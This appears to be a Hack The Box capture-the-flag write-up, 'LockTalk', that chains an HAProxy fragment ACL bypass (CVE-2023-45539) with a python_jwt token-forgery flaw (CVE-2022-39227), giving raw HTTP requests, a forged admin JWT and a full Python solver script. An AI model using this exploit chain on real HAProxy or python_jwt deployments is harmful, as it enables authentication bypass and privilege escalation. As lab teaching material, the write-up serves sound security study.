

 <font size="10">LockTalk</font>

​ DD<sup>th</sup> Feb 2024

​ Challenge Author(s): **dhmosfunk**

### Description:

In "The Ransomware Dystopia," LockTalk emerges as a beacon of resistance against the rampant chaos inflicted by ransomware groups. In a world plunged into turmoil by malicious cyber threats, LockTalk stands as a formidable force, dedicated to protecting society from the insidious grip of ransomware. Chosen participants, tasked with representing their districts, navigate a perilous landscape fraught with ethical quandaries and treacherous challenges orchestrated by LockTalk. Their journey intertwines with the organization's mission to neutralize ransomware threats and restore order to a fractured world. As players confront internal struggles and external adversaries, their decisions shape the fate of not only themselves but also their fellow citizens, driving them to unravel the mysteries surrounding LockTalk and choose between succumbing to despair or standing resilient against the encroaching darkness.

### Objective

HAProxy CVE-2023-45539 => python_jwt CVE-2022-39227

### Difficulty:

`medium`

### Flag:

`HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}`

# Challenge



### Get access ticket by bypassing HAProxy ACL with **#** fragment 
Based on [CVE-2023-45539 advisory description](https://www.cvedetails.com/cve/CVE-2023-45539/), HAProxy accepts # (fragment) as part of URI, which allows ACL bypass on blocked endpoint by frontend. \
In the given application, there is an ACL for **/api/v1/get_ticket** endpoint.
```bash
...

http-request deny if { path_beg,url_dec -i /api/v1/get_ticket }

...
```
By utilizing the # fragment on the /api/v1/get_ticket endpoint, we can bypass the ACL, obtain the JWT token, and proceed with the next stage of exploitation.
```bash
GET /api/v1/get_ticket# HTTP/1.1
Host: localhost:1337
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close
```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 554
server: uWSGI Server
connection: close

{"ticket: ":"[JWT_TOKEN]"}
```

### Forging a new JWT Token with tampered claims in order to bypass role restrictions
python_jwt module version 3.3.3 is vulnerable to forging new valid JWT tokens without knowing the secret used by the backend to verify the JWT tokens. Exploiting this vulnerability, a user could bypass role restrictions and hijack user identities by tampering with existing token claims and adding new ones. \
 \
Exploit involves constructing a fake JWT by tampering with the payload section while preserving the original header and signature. Through careful manipulation of base64-encoded payload data, attackers can inject unauthorized claims such as altering user identities or extending token expiration times.

In order to forge a new token with tampered claims, we need to obtain a valid JWT token from the */api/v1/get_ticket* endpoint. \

Let's create the script for generating a tampered token. First, we need to parse the three parts of the JWT token: header, payload, and signature.
```python
[header, payload, signature] = token.split(".")
```
\
Decode from base64 and parse into a JSON object the JWT token. \
On the second line we change the role of the JWT token to administrator
```python
parsed_payload = loads(base64url_decode(payload))
parsed_payload["role"] = "administrator"
```
\
Generate final JWT token. The fake_payload line its serializes the `parsed_payload` JSON object into a string using `json.dumps` with custom seperators such as  (, for items and ':' for key-value pairs). Then, it encodes the string using `base64url_encode` which encodes the string to a valid base64 format. \

The return statement constructs a new JWT token string. It includes:
- header: The original header of the JWT token.
- fake_payload: The manipulated payload, which has been encoded and formatted.
- "":"": An empty field between the header and payload.
- "protected": The header again.
- "payload": The original payload.
- "signature": The original signature.
```python
fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))
return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'
```

### Get the flag
After generating the final JWT token, a GET flag request should look like the following:
```bash
GET /api/v1/flag HTTP/1.1
Host: localhost:1337
Authorization: {" eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MDkxMzQ5MzgsImlhdCI6MTcwOTEzMTMzOCwianRpIjoiaEF3Yy0wN3Z6S1J0ZE5CVFRCTHIxQSIsIm5iZiI6MTcwOTEzMTMzOCwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"hXIK5TCaHej4Q_ZNpXHb-e4Lssd8sFw1Xx9M-8hdKotb0OPwE5-tymyHXODh7TY2J6xHNCiKkGUYS9JwyDWuwQV7fAaospyE4njbEJOF3qiT-sXUkSbwMVMYHMQ9AiGsBJFjPaA__8l6NrqKKcBO-aPvg-7tlMA0YIbG_KewcRbnI7Bu1ewfkY4-0N4MVZdAuExETnal7FnKcTiyx0v8zKTwbkn1hf1ATLb8zkdisj_TAghukx_6r3VCB1slhbnmbHOPqpIOs5HdEu9v8KC74g23UqE7yvC2H_HRJuS73Y9Q6sARdmtUI1e0ooWyo7Lsv0zTA30Z47mrEIcVk2IWjg"}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36
Connection: close

```
```bash
HTTP/1.1 200 OK
content-type: application/json
content-length: 45
server: uWSGI Server
connection: close

{"message":"HTB{h4Pr0Xy_n3v3r_D1s@pp01n4s}"}
```

# Resources
[CVE-2023-45539 : HAProxy before 2.8.2 accepts # as part of the URI component, which might allow remote attackers to obtain sensitive info](https://www.cvedetails.com/cve/CVE-2023-45539/) \
[奇安信攻防社区-CVE-2022-39227漏洞分析](https://forum.butian.net/share/1990) \
[https://github.com/Casualtek/Ransomchats](https://github.com/Casualtek/Ransomchats)

# Solver

```python
from jwcrypto.common import base64url_encode, base64url_decode
from json import loads, dumps
import requests
import socket

def send_raw_http_request(host, port, request):
    client_socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

    client_socket.connect((host, port))

    client_socket.sendall(request.encode())

    response = b""
    while True:
        recv_data = client_socket.recv(1024)
        if not recv_data:
            break
        response += recv_data

    client_socket.close()

    return response.decode()

def get_token(host,port):
    request = f"""GET /api/v1/get_ticket# HTTP/1.1\r\nHost: {host}:{port}\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/118.0.5993.88 Safari/537.36\r\nConnection: close\r\n\r\n"""

    response = send_raw_http_request(host, 1337, request)
    json_start = response.find("{")
    json_end = response.rfind("}") + 1
    json_data = response[json_start:json_end]

    ticket_dict = loads(json_data)
    token = ticket_dict.get("ticket: ") 

    return token

def exp(token):
    [header, payload, signature] = token.split(".")
    parsed_payload = loads(base64url_decode(payload))
    parsed_payload["role"] = "administrator"
    fake_payload = base64url_encode((dumps(parsed_payload, separators=(',',':'))))

    return '{" ' + header + '.'+ fake_payload + '.":"","protected":"' + header + '", "payload":"' + payload + '","signature":"' + signature + '"}'

def get_flag(host,port,token):

    headers = {"Authorization": token}
    req = requests.get(f"http://{host}:{port}/api/v1/flag", headers=headers)
    
    return req

host = "localhost"
port = 1337

guest_token = get_token(host, port)
admin_token = exp(guest_token)
flag = get_flag(host, port, admin_token)

print(flag.text)
```